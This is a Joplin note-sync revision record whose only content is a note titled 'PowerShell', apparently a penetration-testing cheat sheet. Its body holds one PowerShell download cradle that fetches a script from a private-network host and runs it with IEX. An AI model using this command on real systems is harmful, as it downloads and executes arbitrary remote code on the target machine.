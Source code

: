 id: 82bbdbf49c3c475aa0956998dd9becad
parent_id: 
item_type: 1
item_id: 069c62b2fe97431686d1072c2f9241aa
item_updated_time: 1642586575625
title_diff: "[{\"diffs\":[[1,\"PowerShell\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":10}]"
body_diff: "[{\"diffs\":[[1,\"Download\\\n\\\n> \\\"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')\\\"\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":92}]"
metadata_diff: {"new":{"id":"069c62b2fe97431686d1072c2f9241aa","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T10:05:40.145Z
created_time: 2022-01-19T10:05:40.145Z
type_: 13